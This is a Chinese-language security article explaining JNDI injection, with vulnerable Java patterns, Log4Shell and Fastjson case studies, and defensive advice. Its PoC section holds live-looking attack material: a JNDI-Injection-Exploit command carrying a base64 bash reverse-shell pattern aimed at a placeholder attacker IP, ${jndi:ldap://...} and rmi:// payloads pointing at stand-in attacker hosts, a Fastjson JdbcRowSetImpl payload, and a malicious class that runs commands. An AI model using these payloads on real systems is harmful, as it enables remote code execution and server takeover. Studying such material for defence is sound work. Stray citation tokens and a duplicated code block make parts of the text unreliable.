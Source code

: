 #  JNDI注入漏洞分析   
原创 锐鉴安全  锐鉴安全   2025-05-14 12:01  
  
声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
  
关注公众号，设置为星标，不定期有宠粉福利  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RLTNmn7FBP4ricRiaXQ6WVVlTAgCW8HUbC2rHkicA2rpDNEPAGyiatRibqB9LN5NyHcqLCmbibM1siaumqF5Yu6UtSsYA/640?wx_fmt=png&from=appmsg "")  
  
  
**引言**  
  
近年来，JNDI注入漏洞因其高危害性（如Log4j的Log4Shell漏洞）成为安全领域的焦点。攻击者可通过此类漏洞实现远程代码执行（RCE），甚至完全控制目标服务器。本文将深入剖析JNDI注入的原理、常见攻击手法（PoC）及防御策略，帮助开发者与安全从业者全面认知风险。  
  
### 一、JNDI注入漏洞原理  
  
**1. JNDI的核心机制**  
  
JNDI（Java命名与目录接口）是Java提供的资源访问API，支持通过名称动态加载远程对象，例如ldap://  
或rmi://  
协议资源。其核心风险在于：**未经验证的输入直接传递给InitialContext.lookup()方法**  
，导致应用解析恶意地址并加载远程类。  
  
  
**2. 漏洞触发条件**  
- **动态解析用户输入**  
：如HTTP参数、日志内容等未过滤的场景（如Log4j记录${jndi:...}  
）  
。  
  
- **低版本Java环境**  
：JDK ≤8u191/11.0.1默认允许远程类加载。  
  
- **高版本绕过**  
：若禁用远程加载，攻击者可利用本地ClassPath中的类（如Tomcat的BeanFactory  
）构造利用链。  
  
**3. 漏洞常见功能点**  
- 动态资源查找（如数据库连接、消息队列）  
  
场景：应用通过用户输入动态构造JNDI名称获取资源（如数据源、JMS队列）。  
  
风险代码示例：  
  
```
String jndiName = request.getParameter("datasource");
DataSource ds = (DataSource) new InitialContext().lookup(jndiName); // 用户输入直接传入
```  
  
  
- 日志记录与错误处理  
  
场景：日志框架（如Log4j2）未过滤用户输入，解析${jndi:...}表达式。  
  
风险代码示例：  
```
logger.error("User input: " + userControlledData); // userControlledData含${jndi:ldap://...}
```  
  
- 配置文件或管理接口  
  
场景：管理员通过界面或API配置JNDI资源，输入未经验证。  
  
风险示例：  
```
<!-- 外部篡改配置文件中的JNDI名称 -->
<Resource name="jdbc/MaliciousDS" auth="Container" type="javax.sql.DataSource"
          url="ldap://attacker.com/Exploit"/>
```  
  
- 远程服务调用（RMI/LDAP集成）  
  
场景：应用通过用户提供的地址调用远程服务（如RMI Registry、LDAP查询）。  
  
风险代码示例：  
```
String serviceUrl = request.getParameter("service");
Object obj = new InitialContext().lookup(serviceUrl); // 输入如rmi://attacker:1099/Exploit
```  
  
- 反序列化操作  
  
场景：反序列化数据中嵌入恶意JNDI名称，触发自动解析。  
  
风险示例（Fastjson漏洞）：  
```
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap://attacker.com/Exploit",
  "autoCommit": true
}
```  
  
- 动态类加载机制  
  
场景：通过用户输入指定类名，间接触发JNDI查找。  
  
风险代码示例：  
```
String className = request.getParameter("driver");
Class.forName(className); // 若className指向恶意JNDI资源
```  
  
  
二、JNDI注入攻击PoC实战  
  
1. 基础攻击流程  
  
(1) 搭建恶意服务  
  
使用工具（如JNDI-Injection-Exploit）快速启动LDAP/RMI服务，并托管恶意类文件：  
  
```
# 启动LDAP服务并绑定恶意类
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,<base64命令>}|{base64,-d}|{bash,-i}" -A 攻击者IP:cite[2]:cite[6]
```  
  
  
  
(2) 构造Payload  
  
将生成的JNDI链接注入目标输入点，例如：  
  
HTTP参数如username=${jndi:ldap://攻击者IP/Exploit}  
  
日志触发如logger.error("${jndi:rmi://攻击者IP:1099/Exploit}")  
  
```
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe"); // 执行系统命令
        } catch (Exception e) {}
    }
}
```  
  
  
(3) 恶意类示例  
```
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe"); // 执行系统命令
        } catch (Exception e) {}
    }
}
```  
  
### 三、典型案例分析  
  
1. Log4j2的Log4Shell漏洞（CVE-2021-44228）  
  
漏洞点：Log4j2在记录日志时解析${jndi:ldap://...}，触发远程类加载。  
  
攻击示例：在HTTP头中注入Payload：  
```
GET / HTTP/1.1
User-Agent: ${jndi:ldap://攻击者IP/Exploit}
```  
  
目标服务器记录日志时即触发漏洞。  
  
  
2. Fastjson反序列化漏洞  
  
利用链：通过@type指定恶意类（如JdbcRowSetImpl），触发JNDI注入：  
```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://攻击者IP/Exploit"}
```:cite[7]
```  
  
### 四、防御建议  
  
**1、升级环境与依赖**  
  
JDK≥8u191/11.0.1,com.sun.jndi.ldap.object.trustURLCodebase=false。  
  
升级Log4j至≥2.17.1，并禁用JNDI功能。  
  
****  
**2、代码与输入过滤**  
  
避免将用户输入直接传递给lookup()  
方法。  
  
对输入内容严格过滤，禁止jndi:  
、ldap://  
等危险协议。  
  
  
**3、网络与监控**  
  
限制应用出站连接，拦截非常规协议请求（如非内网LDAP/RMI）。  
  
部署WAF规则，拦截包含${jndi:  
特征的请求。  
  
### 五、总结  
  
JNDI注入漏洞的根源在于**不可信输入的动态解析**  
与**环境配置缺陷。JNDI漏洞利用的四大核心条件：输入可控、动态解析、类加载能力、攻击路径可达**  
。防御需从代码规范、环境加固、流量监控多层面入手。  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

